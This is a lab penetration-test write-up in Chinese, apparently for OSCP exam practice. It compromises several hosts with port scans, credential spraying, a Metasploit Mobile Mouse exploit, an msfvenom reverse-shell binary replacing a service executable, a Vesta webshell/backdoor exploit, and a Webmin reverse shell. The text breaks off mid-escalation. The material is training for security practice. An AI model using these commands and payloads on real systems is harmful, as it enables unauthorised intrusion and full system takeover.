






# 外網列舉

```bash
┌──(kali㉿kali)-[~]
└─$ rustscan -a 192.168.151.153
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Because every port has a story to tell.

.........

PORT      STATE SERVICE      REASON
22/tcp    open  ssh          syn-ack ttl 125
135/tcp   open  msrpc        syn-ack ttl 125
139/tcp   open  netbios-ssn  syn-ack ttl 125
445/tcp   open  microsoft-ds syn-ack ttl 125
5040/tcp  open  unknown      syn-ack ttl 125
5985/tcp  open  wsman        syn-ack ttl 125
8000/tcp  open  http-alt     syn-ack ttl 125

........
```
```bash
┌──(kali㉿kali)-[~]
└─$ rustscan -a 192.168.151.155
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
I scanned ports so fast, even my computer was surprised.

.........

PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 125
9099/tcp  open  unknown syn-ack ttl 125
9999/tcp  open  abyss   syn-ack ttl 29

.........
```
```bash
┌──(kali㉿kali)-[~]
└─$ rustscan -a 192.168.151.156
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

........

PORT     STATE SERVICE     REASON
21/tcp   open  ftp         syn-ack ttl 61
22/tcp   open  ssh         syn-ack ttl 61
25/tcp   open  smtp        syn-ack ttl 61
53/tcp   open  domain      syn-ack ttl 61
80/tcp   open  http        syn-ack ttl 61
110/tcp  open  pop3        syn-ack ttl 61
143/tcp  open  imap        syn-ack ttl 61
465/tcp  open  smtps       syn-ack ttl 61
587/tcp  open  submission  syn-ack ttl 61
993/tcp  open  imaps       syn-ack ttl 61
995/tcp  open  pop3s       syn-ack ttl 61
2525/tcp open  ms-v-worlds syn-ack ttl 61
3306/tcp open  mysql       syn-ack ttl 61
8080/tcp open  http-proxy  syn-ack ttl 61
8083/tcp open  us-srv      syn-ack ttl 61
8443/tcp open  https-alt   syn-ack ttl 61

........
```
```bash
┌──(kali㉿kali)-[~]
└─$ rustscan -a 192.168.151.157
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

.......

PORT      STATE SERVICE REASON
21/tcp    open  ftp     syn-ack ttl 61
22/tcp    open  ssh     syn-ack ttl 61
80/tcp    open  http    syn-ack ttl 61
20000/tcp open  dnp     syn-ack ttl 61

.......
```

### rustscan 摘要

| IP | PORT |
| -------- | -------- |
| 192.168.x.153 | 22,135,139,445,5040,5985,8000 |
| 192.168.x.155 | 80,9099,9999 |
| 192.168.x.156 | 21,22,25,53,80,110,143,465,587,993,995,2525,3306,8080,8083,8443 |
| 192.168.x.157 | 21,22,80,20000 |

### nxc
```bash
┌──(kali㉿kali)-[~/Desktop/OSCP C]
└─$ nxc smb ip.txt -u 'Eric.Wallows' -p 'EricLikesRunning800'
SMB         192.168.173.153 445    MS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:MS01) (domain:oscp.exam) (signing:False) (SMBv1:None)
SMB         192.168.173.153 445    MS01             [+] oscp.exam\Eric.Wallows:EricLikesRunning800 
Running nxc against 4 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

┌──(kali㉿kali)-[~/Desktop/OSCP C]
└─$ nxc winrm ip.txt -u 'Eric.Wallows' -p 'EricLikesRunning800'
WINRM       192.168.173.153 5985   MS01             [*] Windows 10 / Server 2019 Build 19041 (name:MS01) (domain:oscp.exam)
WINRM       192.168.173.153 5985   MS01             [+] oscp.exam\Eric.Wallows:EricLikesRunning800 (Pwn3d!)
Running nxc against 4 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

┌──(kali㉿kali)-[~/Desktop/OSCP C]
└─$ nxc ssh ip.txt -u 'Eric.Wallows' -p 'EricLikesRunning800' 
SSH         192.168.173.157 22     192.168.173.157  [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3
SSH         192.168.173.156 22     192.168.173.156  [*] SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.7
SSH         192.168.173.153 22     192.168.173.153  [*] SSH-2.0-OpenSSH_for_Windows_8.1
SSH         192.168.173.157 22     192.168.173.157  [-] Eric.Wallows:EricLikesRunning800
SSH         192.168.173.156 22     192.168.173.156  [-] Eric.Wallows:EricLikesRunning800
SSH         192.168.173.153 22     192.168.173.153  [+] Eric.Wallows:EricLikesRunning800 (Pwn3d!) with UAC - Windows - Shell access!                                                                                                                
Running nxc against 4 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

---

# 獨立主機

### 192.168.x.155 (Windows)

*   **初始存取**：rustscan 掃描結果，目標開啟 9099 port，搜尋相關漏洞：
    
    
*   **利用 Metasploit 尋找相關 POC**：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ msfconsole -q                                                                           
    msf > search Mobile Mouse

    Matching Modules
    ================

       #  Name                                   Disclosure Date  Rank    Check  Description
       -  ----                                   ---------------  ----    -----  -----------
       0  exploit/windows/misc/mobile_mouse_rce  2022-09-20       normal  Yes    Mobile Mouse RCE


    Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/misc/mobile_mouse_rce                                                                                       

    msf > use 0
    ```

*   **設定參數**：
    ```bash
    msf exploit(windows/misc/mobile_mouse_rce) > options 

    Module options (exploit/windows/misc/mobile_mouse_rce):

       Name        Current Setting   Required  Description
       ----        ---------------   --------  -----------
       CLIENTNAME                    no        Name of client, this shows up in the logs
       PATH        c:\Windows\Temp\  yes       Where to stage payload for pull method
       RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/do
                                               cs/using-metasploit/basics/using-metasploit.html
       RPORT       9099              yes       Port Mobile Mouse runs on (TCP)
       SLEEP       3                 yes       How long to sleep between commands
       SRVHOST     0.0.0.0           yes       The local host or network interface to listen on. This
                                               must be an address on the local machine or 0.0.0.0 to
                                               listen on all addresses.
       SRVPORT     8080              yes       The local port to listen on.
       SRVSSL      false             no        Negotiate SSL/TLS for local server connections
       SSL         false             no        Negotiate SSL for incoming connections
       SSLCert                       no        Path to a custom SSL certificate (default is randomly
                                               generated)
       URIPATH                       no        The URI to use for this exploit (default is random)


    Payload options (windows/shell/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST                      yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   default


    View the full module info with the info, or info -d command.

    msf exploit(windows/misc/mobile_mouse_rce) > set rhosts 192.168.179.155
    rhosts => 192.168.179.155
    msf exploit(windows/misc/mobile_mouse_rce) > set lhost 192.168.45.196
    lhost => 192.168.45.196
    msf exploit(windows/misc/mobile_mouse_rce) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    ```

*   **執行 exploit，取得 reverse shell**：
    ```bash
    msf exploit(windows/misc/mobile_mouse_rce) > exploit 
    [*] Started reverse TCP handler on 192.168.45.196:4444 
    [*] 192.168.179.155:9099 - Running automatic check ("set AutoCheck false" to disable)
    [*] 192.168.179.155:9099 - Client name set to: aapnASi
    [*] 192.168.179.155:9099 - Connecting
    [+] 192.168.179.155:9099 - The target appears to be vulnerable. Connected to hostname OSCP with MAC address 00:50:56:AB:A8:4A
    [*] 192.168.179.155:9099 - Client name set to: af2lX8YiMM
    [*] 192.168.179.155:9099 - Connecting
    [*] 192.168.179.155:9099 - Opening Command Prompt
    [*] 192.168.179.155:9099 - Sending stager
    [*] 192.168.179.155:9099 - Using URL: http://192.168.45.196:8080/
    [+] 192.168.179.155:9099 - Payload request received, sending 7168 bytes of payload for staging
    [+] 192.168.179.155:9099 - Payload request received, sending 7168 bytes of payload for staging
    [*] 192.168.179.155:9099 - Opening Command Prompt again
    [*] 192.168.179.155:9099 - Executing payload
    [*] Sending stage (199238 bytes) to 192.168.179.155
    [*] Meterpreter session 1 opened (192.168.45.196:4444 -> 192.168.179.155:53490) at 2026-06-03 10:00:49 -0400
    [*] 192.168.179.155:9099 - Server stopped.
    [!] 192.168.179.155:9099 - This exploit may require manual cleanup of 'c:\Windows\Temp\rjWBeVPXKlkroxXAB.exe' on the target

    meterpreter > ifconfig 

    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


    Interface  4
    ============
    Name         : vmxnet3 Ethernet Adapter
    Hardware MAC : 00:50:56:ab:bd:06
    MTU          : 1500
    IPv4 Address : 192.168.179.155
    IPv4 Netmask : 255.255.255.0
    IPv6 Address : fe80::5837:c923:2637:8df2
    IPv6 Netmask : ffff:ffff:ffff:ffff::
    ```

*   **搜尋 local.txt**：
    ```powershell
    meterpreter > shell
    Process 8108 created.
    Channel 2 created.
    Microsoft Windows [Version 10.0.19045.2251]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\Temp>whoami
    whoami
    oscp\tim

    C:\Windows\Temp>powershell
    powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

    Try the new cross-platform PowerShell https://aka.ms/pscore6

    PS C:\Windows\Temp> ls C:\users -file -i local.txt -r -ea 0
    ls C:\users -file -i local.txt -r -ea 0


        Directory: C:\users\Tim\Desktop


    Mode                 LastWriteTime         Length Name                                                                 
    ----                 -------------         ------ ----                                                                 
    -a----          6/3/2026   6:41 AM             34 local.txt
    ```

*   **本地提權**：搜尋服務，發現對 `C:\Program Files\MilleGPG5\GPGService.exe` 有修改權限：
    ```powershell
    PS C:\Windows\Temp> Get-CimInstance -ClassName win32_service | Select Name,State,StartName,PathName | Where-Object {$_.State -like 'Running' -and $_.PathName -notmatch '^"?C:\\Windows\\'}
    Get-CimInstance -ClassName win32_service | Select Name,State,StartName,PathName | Where-Object {$_.State -like 'Running' -and $_.PathName -notmatch '^"?C:\\Windows\\'}

    Name            State   StartName   PathName                                                                      
    ----            -----   ---------   --------                                                                      
    Bonjour Service Running LocalSystem "C:\Program Files (x86)\Bonjour\mDNSResponder.exe"                            
    GPGOrchestrator Running LocalSystem "C:\Program Files\MilleGPG5\GPGService.exe"                                   
    LSM             Running                                                                                           
    MariaDB-GPG     Running LocalSystem "C:\Program Files\MilleGPG5\MariaDB\bin\mysqld.exe" MariaDB-GPG               
    VGAuthService   Running LocalSystem "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"        
    VMTools         Running LocalSystem "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                           
    WinDefend       Running LocalSystem "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2210.6-0\MsMpEng.exe"
    ```
    ```powershell
    PS C:\Windows\Temp> icacls "C:\Program Files\MilleGPG5\GPGService.exe"
    icacls "C:\Program Files\MilleGPG5\GPGService.exe"
    C:\Program Files\MilleGPG5\GPGService.exe BUILTIN\Users:(R)
                                              BUILTIN\Users:(I)(M)
                                              NT AUTHORITY\SYSTEM:(I)(F)
                                              BUILTIN\Administrators:(I)(F)
                                              APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                              APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

    Successfully processed 1 files; Failed processing 0 files
    ```

*   **製作要替換的 `GPGService.exe`**：
    ```bash                                                
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.196 LPORT=443 -f exe -o GPGService.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7680 bytes
    Saved as: GPGService.exe

    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ python3 -m http.server 888
    Serving HTTP on 0.0.0.0 port 888 (http://0.0.0.0:888/) ...
    ```
    
*   **在目標中替換 `GPGService.exe`，並重新啟動，成功取得 SYSTEM 權限 Shell**：
    ```powershell
    PS C:\Windows\Temp> net stop GPGOrchestrator
    net stop GPGOrchestrator
    .
    The GPG Orchestrator service was stopped successfully.

    PS C:\Windows\Temp> Get-Service GPGOrchestrator
    Get-Service GPGOrchestrator

    Status   Name               DisplayName                           
    ------   ----               -----------                           
    Stopped  GPGOrchestrator    GPG Orchestrator                      


    PS C:\Windows\Temp> iwr http://192.168.45.196:888/GPGService.exe -o "C:\Program Files\MilleGPG5\GPGService.exe"
    iwr http://192.168.45.196:888/GPGService.exe -o "C:\Program Files\MilleGPG5\GPGService.exe"
    PS C:\Windows\Temp> net start GPGOrchestrator
    net start GPGOrchestrator
    ```
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ rlwrap nc -lvnp 443
    listening on [any] 443 ...
    connect to [192.168.45.196] from (UNKNOWN) [192.168.179.155] 53894
    Microsoft Windows [Version 10.0.19045.2251]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    nt authority\system
    ```
    
*   **成功取得 proof.txt**：
    ```powershell
    C:\Windows\system32>powershell -c "ls C:\users -file -i proof.txt -r -ea 0"
    powershell -c "ls C:\users -file -i proof.txt -r -ea 0"


        Directory: C:\users\Administrator\Desktop


    Mode                 LastWriteTime         Length Name                                                                 
    ----                 -------------         ------ ----                                                                 
    -a----          6/3/2026   6:41 AM             34 proof.txt
    ```

---

### 192.168.x.156 (Linux)

*   **初始偵察**：對目標 `161/UDP port` 進行掃描，發現目標 161 port 有開啟，且運行 SNMP 服務：
    ```bash
    ┌──(kali㉿kali)-[~/Downloads]
    └─$ nmap -Pn -sU -p 161 192.168.173.156
    Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-04 09:52 -0400
    Nmap scan report for 192.168.173.156
    Host is up (0.094s latency).

    PORT    STATE SERVICE
    161/udp open  snmp

    Nmap done: 1 IP address (1 host up) scanned in 0.73 seconds
    ```

*   **資訊洩漏**：使用 `snmpwalk` 對目標進行 MIB 查詢，發現 creds 洩漏：
    ```bash
    ┌──(kali㉿kali)-[~/Downloads]
    └─$ snmpwalk -v 2c -c public 192.168.173.156 NET-SNMP-EXTEND-MIB::nsExtendObjects

    NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 2
    NET-SNMP-EXTEND-MIB::nsExtendCommand."reset-password" = STRING: /bin/sh
    NET-SNMP-EXTEND-MIB::nsExtendCommand."reset-password-cmd" = STRING: /bin/echo
    NET-SNMP-EXTEND-MIB::nsExtendArgs."reset-password" = STRING: -c "echo \"jack:3PUKsX98BMupBiCf\" | chpasswd"
    NET-SNMP-EXTEND-MIB::nsExtendArgs."reset-password-cmd" = STRING: "\"jack:3PUKsX98BMupBiCf\" | chpasswd"
    NET-SNMP-EXTEND-MIB::nsExtendInput."reset-password" = STRING: 
    NET-SNMP-EXTEND-MIB::nsExtendInput."reset-password-cmd" = STRING: 
    NET-SNMP-EXTEND-MIB::nsExtendCacheTime."reset-password" = INTEGER: 5
    NET-SNMP-EXTEND-MIB::nsExtendCacheTime."reset-password-cmd" = INTEGER: 5
    NET-SNMP-EXTEND-MIB::nsExtendExecType."reset-password" = INTEGER: shell(2)
    NET-SNMP-EXTEND-MIB::nsExtendExecType."reset-password-cmd" = INTEGER: shell(2)
    NET-SNMP-EXTEND-MIB::nsExtendRunType."reset-password" = INTEGER: run-on-read(1)
    NET-SNMP-EXTEND-MIB::nsExtendRunType."reset-password-cmd" = INTEGER: run-on-read(1)
    NET-SNMP-EXTEND-MIB::nsExtendStorage."reset-password" = INTEGER: permanent(4)
    NET-SNMP-EXTEND-MIB::nsExtendStorage."reset-password-cmd" = INTEGER: permanent(4)
    NET-SNMP-EXTEND-MIB::nsExtendStatus."reset-password" = INTEGER: active(1)
    NET-SNMP-EXTEND-MIB::nsExtendStatus."reset-password-cmd" = INTEGER: active(1)
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."reset-password" = STRING: Changing password for jack.
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."reset-password-cmd" = STRING: "jack:3PUKsX98BMupBiCf" | chpasswd
    NET-SNMP-EXTEND-MIB::nsExtendOutputFull."reset-password" = STRING: Changing password for jack.
    NET-SNMP-EXTEND-MIB::nsExtendOutputFull."reset-password-cmd" = STRING: "jack:3PUKsX98BMupBiCf" | chpasswd
    NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."reset-password" = INTEGER: 1
    NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."reset-password-cmd" = INTEGER: 1
    NET-SNMP-EXTEND-MIB::nsExtendResult."reset-password" = INTEGER: 256
    NET-SNMP-EXTEND-MIB::nsExtendResult."reset-password-cmd" = INTEGER: 0
    NET-SNMP-EXTEND-MIB::nsExtendOutLine."reset-password".1 = STRING: Changing password for jack.
    NET-SNMP-EXTEND-MIB::nsExtendOutLine."reset-password-cmd".1 = STRING: "jack:3PUKsX98BMupBiCf" | chpasswd
    ```

*   **登入後台**：在目標 8083 port 發現跳轉至 login 頁面，且可以使用 `jack:3PUKsX98BMupBiCf` 成功登入：
    
    
*   **搜尋 Vesta 漏洞**：
    

*   **使用 RCE POC 取得 root 權限**：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C/vesta-rce-exploit]
    └─$ python3 vesta-rce-exploit.py https://192.168.173.156:8083 jack 3PUKsX98BMupBiCf
    [INFO] Attempting login to https://192.168.173.156:8083 as jack
    [+] Logged in as jack
    [INFO] Checking for existing webshell or creating one
    [!] 5f3ybmnyii.poc not found, creating one...
    [+] 5f3ybmnyii.poc added
    [+] 5f3ybmnyii.poc found, looking up webshell
    [!] webshell not found, creating one..
    [+] Webshell uploaded
    [INFO] Creating mailbox on domain 5f3ybmnyii.poc
    [!] Mail domain not found, creating one..
    [+] Mail domain created
    [+] Mail account created
    [INFO] Editing mailbox to test payload
    [INFO] Deploying backdoor via mailbox editing
    [INFO] [+] Root shell possibly obtained. Enter commands:
    # whoami
    root
    ```
    
*   **取得 local.txt 與 proof.txt**：
    ```bash
    # find / -name local.txt 2>/dev/null
    /home/Jack/local.txt
    /home/jack/local.txt
    ```
    ```bash
    # find / -name proof.txt 2>/dev/null
    /root/proof.txt
    ```

---

### 192.168.x.157 (Linux)

*   **偵察與列舉**：對目標 nmap 掃描，發現 21 port 可以匿名登入：
    ```bash
    ┌──(kali㉿kali)-[~/Downloads]
    └─$ nmap -Pn -sVC 192.168.173.157
    Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-04 10:34 -0400
    Nmap scan report for 192.168.173.157
    Host is up (0.083s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT      STATE SERVICE VERSION
    21/tcp    open  ftp     vsftpd 3.0.5

    ..........

    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_drwxr-xr-x    2 114      120          4096 Nov 02  2022 backup

    ..........
    ```

*   **下載備份文件**：使用 `ftp` 匿名登入，在 backup 資料夾裡發現 pdf 檔案並下載至攻擊機：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ ftp 192.168.173.157  
    Connected to 192.168.173.157.
    220 (vsFTPd 3.0.5)
    Name (192.168.173.157:kali): anonymous
    331 Please specify the password.
    Password: 
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    229 Entering Extended Passive Mode (|||10100|)
    150 Here comes the directory listing.
    drwxr-xr-x    2 114      120          4096 Nov 02  2022 backup
    226 Directory send OK.
    ftp> cd backup
    250 Directory successfully changed.
    ftp> ls
    229 Entering Extended Passive Mode (|||10098|)
    150 Here comes the directory listing.
    -rw-r--r--    1 114      120        145831 Nov 02  2022 BROCHURE-TEMPLATE.pdf
    -rw-r--r--    1 114      120        159765 Nov 02  2022 CALENDAR-TEMPLATE.pdf
    -rw-r--r--    1 114      120        336971 Nov 02  2022 FUNCTION-TEMPLATE.pdf
    -rw-r--r--    1 114      120        739052 Nov 02  2022 NEWSLETTER-TEMPLATE.pdf
    -rw-r--r--    1 114      120        888653 Nov 02  2022 REPORT-TEMPLATE.pdf
    226 Directory send OK.
    ftp> get BROCHURE-TEMPLATE.pdf
    ......
    ftp> get CALENDAR-TEMPLATE.pdf
    ......
    ```
    
*   **分析 Metadata 製作帳號字典**：使用 `exiftool` 查看檔案 metadata 發現作者：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ exiftool NEWSLETTER-TEMPLATE.pdf 

    .......
    Author                          : Mark

    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ exiftool FUNCTION-TEMPLATE.pdf

    ......
    Author                          : Cassie

    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ exiftool REPORT-TEMPLATE.pdf 

    ......
    Author                          : Robert
    ```

*   **網路設定與憑證繞過**：開啟目標 20000 port 網頁，發現使用 SSL，將 IP 加入 `/etc/hosts`：
    
    
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ cat /etc/hosts 
    127.0.0.1       localhost
    127.0.1.1       kali
    ::1             localhost ip6-localhost ip6-loopback
    ff02::1         ip6-allnodes
    ff02::2         ip6-allrouters
    192.168.173.157 oscp
    ```

*   **取得初始 Shell**：在網頁發現 Webmin 登入頁面，使用先前元數據收集的帳號進行弱密碼爆破，發現 `cassie:cassie` 可成功登入：
    
    
    登入後發現有 Command shell 功能：
    
    
    透過 Command shell 成功連回 reverse shell：
    ```bash
    ┌──(kali㉿kali)-[~/Desktop/OSCP C]
    └─$ rlwrap nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [192.168.45.180] from (UNKNOWN) [192.168.173.157] 39818
    sh: cannot set terminal process group (1912): Inappropriate ioctl for device
    sh: no job control in this shell
    sh-5.1$ whoami
    whoami
    cassie
    ```
    
*   **本地提權 (Tar Wildcard Checkpoint)**：列舉排程，發現 root 每 2 分鐘會以萬用字元執行備份：
    ```bash
    sh-5.1$ grep CRON /var/log/syslog
    grep CRON /var/log/syslog
    Jun  4 13:30:38 oscp CRON[1445]: (root) CMD (cd /opt/admin && tar -zxf /tmp/backup.tar.gz *)
    Jun  4 13:30:38 oscp CRON[1444]: (CRON) info (No MTA installed, discarding output)
